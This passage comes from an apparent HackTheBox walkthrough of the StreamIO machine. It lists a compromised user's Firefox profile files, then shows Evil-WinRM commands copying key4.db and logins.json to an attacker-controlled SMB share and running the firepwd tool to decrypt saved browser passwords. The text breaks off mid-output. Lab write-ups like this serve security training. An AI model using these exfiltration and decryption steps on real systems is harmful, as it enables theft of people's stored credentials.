 ```
File: C:\Users\nikk37\AppData\Roaming\Mozilla\Firefox\Profiles\br53rxeg.default-release\storage\default\moz-extension+++f5b2b34a-aa3b-42c6-864b-15a8a1f16c4f^userContextId=4294967295\idb\3647222921wleabcEoxlt-eengsairo.sqlite
File: C:\Users\nikk37\AppData\Roaming\Mozilla\Firefox\Profiles\br53rxeg.default-release\content-prefs.sqlite
File: C:\Users\nikk37\AppData\Roaming\Mozilla\Firefox\Profiles\br53rxeg.default-release\cookies.sqlite
File: C:\Users\nikk37\AppData\Roaming\Mozilla\Firefox\Profiles\br53rxeg.default-release\favicons.sqlite
File: C:\Users\nikk37\AppData\Roaming\Mozilla\Firefox\Profiles\br53rxeg.default-release\formhistory.sqlite
File: C:\Users\nikk37\AppData\Roaming\Mozilla\Firefox\Profiles\br53rxeg.default-release\permissions.sqlite
File: C:\Users\nikk37\AppData\Roaming\Mozilla\Firefox\Profiles\br53rxeg.default-release\places.sqlite
File: C:\Users\nikk37\AppData\Roaming\Mozilla\Firefox\Profiles\br53rxeg.default-release\storage.sqlite
File: C:\Users\nikk37\AppData\Roaming\Mozilla\Firefox\Profiles\br53rxeg.default-release\webappsstore.sqlite

########## Found Password Files Files
File: C:\Users\All Users\Microsoft\UEV\InboxTemplates\RoamingCredentialSettings.xml

```

Seem like we are going to deal with Firefox database. We've done this one in the past for [Heist.htb](https://github.com/ring-buffer/Red_Team_Notes/blob/main/Windows-HTB-Boxes/Heist%20HTB.md).  Our user nikk37 has a Firefox db present on the target.

We are going to use [Firepwd](https://github.com/lclevy/firepwd) An open source tool to decrypt the Mozilla Firefox password. Also we will grab the two files `key4.db` and `logins.json`. 

```
*Evil-WinRM* PS C:\Users\nikk37\AppData\roaming\mozilla\Firefox\Profiles\br53rxeg.default-release> copy key4.db \\10.10.14.8\share
*Evil-WinRM* PS C:\Users\nikk37\AppData\roaming\mozilla\Firefox\Profiles\br53rxeg.default-release> copy logins.json \\10.10.14.8\share
```

Putting the `key4.db` and `Logins.json` in the same directory where the `firepwd` was git cloned.
```
┌──(root㉿kali)-[/home/ringbuffer/Downloads/StreamIO.htb/firepwd]
└─# mv ../key4.db .           

┌──(root㉿kali)-[/home/ringbuffer/Downloads/StreamIO.htb/firepwd]
└─# mv ../logins.json .
```

```
# python firepwd.py       
globalSalt: b'd215c391179edb56af928a06c627906bcbd4bd47'
 SEQUENCE {
   SEQUENCE {
     OBJECTIDENTIFIER 1.2.840.113549.1.5.13 pkcs5 pbes2
     SEQUENCE {
       SEQUENCE {
         OBJECTIDENTIFIER 1.2.840.113549.1.5.12 pkcs5 PBKDF2
         SEQUENCE {
           OCTETSTRING b'5d573772912b3c198b1e3ee43ccb0f03b0b23e46d51c34a2a055e00ebcd240f5'
           INTEGER b'01'
           INTEGER b'20'
           SEQUENCE {
             OBJECTIDENTIFIER 1.2.840.113549.2.9 hmacWithSHA256
           }
         }
       }
```